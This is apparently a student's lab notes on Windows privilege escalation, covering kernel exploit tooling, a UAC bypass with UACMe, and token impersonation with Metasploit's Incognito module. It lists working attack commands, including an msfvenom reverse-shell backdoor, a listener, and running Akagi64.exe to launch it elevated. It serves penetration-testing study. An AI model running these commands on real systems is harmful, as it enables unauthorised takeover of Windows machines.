 
# Windows Privilege Escalation
#### Windows Kernel Exploits:
##### Elevate privileges from one user to another, a user with administrative or root access
#### Windows Kernal
- kernel is a computer program that is the core of an operating system
- Windows NT is the kernel that comes pre-packed with all versions of Microsoft Windows
- has two main modes
	- User Mode 
	- Kernel Mode - has unrestricted access
#### Windows Kernal Exploitation
- privilege escalation on Windows systems will follow the following methodology
	- identifying Kernel vulnerabilities
	- downloading, compiling and transferring kernel exploits onto the target system
- process differs for different Windows versions
- tools
	- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
	- [Windows-Kernel-Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16- 135)
- techniques - Manually, Metasploit
- Metasploit
	- obtain a meterpreter session on your target
	- use a the suggester module to check kernel vulns
	- use an exploit
	- that is it
- Manually
	- use two previous tools
 	- 

### Bypassing UAC with UACMe
- User Account Control
	- windows security feature
- Bypassing UAC
- have access to a user account that is part of local administrator group
- tools to be used depends on the version of windows running
- [UACMe](https://github.com/hfiref0x/UACME) - tool
	- allows attackers to execute malicious payloads with administrative privileges
- Process
- `$ nmap -sV 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ setg RHOSTS 10.10.10.10`
- `$ search rejetto``
- `$ use `
- `$ set options`
- `$ run`
- Check if the user is part of the administrator group
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate 2448`
- `$ sysinfo`
- `$ getprivs`
- `$ shell`
- `$ net user`
- `$ net localgroup administrators`
- **using UACMe**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe > backdoor.exe`
- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST your IP`
- `set LPORT 1234`
- `run`
- back to first Metasploit
- `cd C:\\`
- `mkdir Temp`
- `cd Temp`
- `upload backdoor.exe`
- `upload /root/Desktop/tools/UACME/Akagi64.exe`
- `shell`
- `.\Akagi64.exe 23 C:\Temp\backdoor.exe`
- back to second Metasploit

### Access Token Impersonation
- are core element of the authentication process on windows
- are created and managed by the Local Security Authority Subsystem Service (LSASS)
- controls what users can and cannot on the system
- two types
	- Impersonate-level tokens
	- Delegate-level tokens
- privilleges are required for successful impersonation attack
	- SeAssignPrimaruToken
	- SeCreateToken
	- SelmpersonatePrivilege
- The Incognito Module
	- built-in meterpreter module
	- we use for displaying a list of available tokens that we can impersonate
- **sample process** 
- `$ nmap 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ search rejetto`
- `$ use 0`
- `$ set options`
- `$ run`
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- we have the SeImpersonatePrivilege
- **using Incognito module**
- `$ load incognito`
- `$ list_tokens -u `
- `$ impersonate_token "Attackdefence\admmm...."`
- `$ getuid`
- `$ getprivs`
- `$pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- if you don't get the tokens, use the potato attack - will be discussed in another video
